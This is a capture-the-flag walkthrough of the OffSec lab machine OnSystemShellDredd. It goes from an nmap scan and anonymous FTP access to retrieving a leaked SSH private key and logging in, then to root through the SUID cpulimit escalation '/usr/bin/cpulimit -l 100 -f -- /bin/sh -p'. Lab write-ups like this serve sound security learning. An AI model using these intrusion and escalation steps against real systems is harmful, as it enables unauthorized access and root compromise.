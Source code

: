 ```yaml
---
layout: post
title:  "OnSystemShellDredd Writeup"
date:   2022-07-16 12:35:41 +0530
---
```


# Walkthrough of OnSystemShellDredd

Hello everyone, in this post I'm sharing `offsec` play grounds `warm-up` machine called `OnSystemShellDredd`.  

## Nmap

First thing first that we have to find out opened ports of this target. So, I ran a full port scan against target ip here.

`nmap -sC -sV -p- <target-ip>`

```
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.49.116
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
61000/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 59:2d:21:0c:2f:af:9d:5a:7b:3e:a4:27:aa:37:89:08 (RSA)
|   256 59:26:da:44:3b:97:d2:30:b1:9b:9b:02:74:8b:87:58 (ECDSA)
|_  256 8e:ad:10:4f:e3:3e:65:28:40:cb:5b:bf:1d:24:7f:17 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.59 seconds

```

## Attack

We can see a interesting thing that **`Anonumous FTP login allowed`**. So, we can access to the ftp server by anonymous credentials.

```
username - anonymous
password - anonymous
```

Command will be `ftp <target-ip>`

we can list the files in ftp server with command `ls -la`. Fortunately there is a directory called `.hannah`. So, now we can change the directory by `cd .hannah` and again we can list files by the previous command we used.

```
Connected to 192.168.219.130.
220 (vsFTPd 3.0.3)
Name (192.168.219.130:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 0        115          4096 Aug 06  2020 .
drwxr-xr-x    3 0        115          4096 Aug 06  2020 ..
drwxr-xr-x    2 0        0            4096 Aug 06  2020 .hannah
226 Directory send OK.
ftp> cd .hannah
250 Directory successfully changed.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Aug 06  2020 .
drwxr-xr-x    3 0        115          4096 Aug 06  2020 ..
-rwxr-xr-x    1 0        0            1823 Aug 06  2020 id_rsa
226 Directory send OK.
```

We can see a file called `id_rsa` is there. So we can get that file by `get id_rsa`.

```
ftp> get id_rsa
local: id_rsa remote: id_rsa
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for id_rsa (1823 bytes).
226 Transfer complete.
1823 bytes received in 0.01 secs (207.4669 kB/s)
ftp> 
```

The default name for SSH keypair is id_rsa. So, you got that. We can connect to the target by ssh using this id_rsa.first of all you need to set private key permissions.

```
chmod 600 id_rsa
ssh hannah@<targetip> -i id_rsa -p 61000
```

```
The authenticity of host '[192.168.116.130]:61000 ([192.168.116.130]:61000)' can't be established.
ECDSA key fingerprint is SHA256:ceHZU8u3GwiQwVwrN4Ci830AmTvAmIUOlLjtVYcP2KM.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[192.168.116.130]:61000' (ECDSA) to the list of known hosts.
Linux ShellDredd 4.19.0-10-amd64 #1 SMP Debian 4.19.132-1 (2020-07-24) x86_64
The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
hannah@ShellDredd:~$ ls
local.txt  user.txt
hannah@ShellDredd:~$ 
```

## Privilege Escalation

After login as user `hannah` we need to do a privilege escalation because we need to become root in this machine. In linux systems the `SUID` bit is a flag on a file which states that whoever runs the file will have the privileges of the owner of the file. Just imagine you are a normal `user` and the file is owned by `root`, then when you run that executable, the code runs with the permissions of the root user. The SUID bit only works on Linux ELF executables, meaning it does nothing if it’s set on a Bash shell script, a Python script file, a perl file or something like that.

You can find out the files with `SUID` enabled by this command.

``` 
command- find / -perm -u=s -type f 2>/dev/null 

find is a linux command which can find files in a directory.
-perm -u=s is searching for files with SUID.
2>/dev/null will filter out the errors so taht they will not be outputed to your console.

```

After I ran the command:-

```
hannah@ShellDredd:~$ find / -perm -u=s -type f 2>/dev/null

/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/umount
/usr/bin/mawk
/usr/bin/chfn
/usr/bin/su
/usr/bin/chsh
/usr/bin/fusermount
/usr/bin/cpulimit
/usr/bin/mount
/usr/bin/passwd

```

Here you can see a interesting binary called `cpulimit`. That is out target.

## Time to be root

There is a interesting site called [gtfobins](https://gtfobins.github.io) that will help how to bypass this sort of misconfigured files.

command to be root

```
hannah@ShellDredd:~$ /usr/bin/cpulimit -l 100 -f -- /bin/sh -p
Process 1174 detected
# whoami
root
# cd /root
# ls
proof.txt  root.txt
```

Enjoy the flags Yourself!

## References

Don't be a script kiddy! Read more resources be a pro...

[Read more about SUID](https://materials.rangeforce.com/tutorial/2019/11/07/Linux-PrivEsc-SUID-Bit/)\
[Gtfobins](https://gtfobins.github.io/gtfobins/cpulimit/)
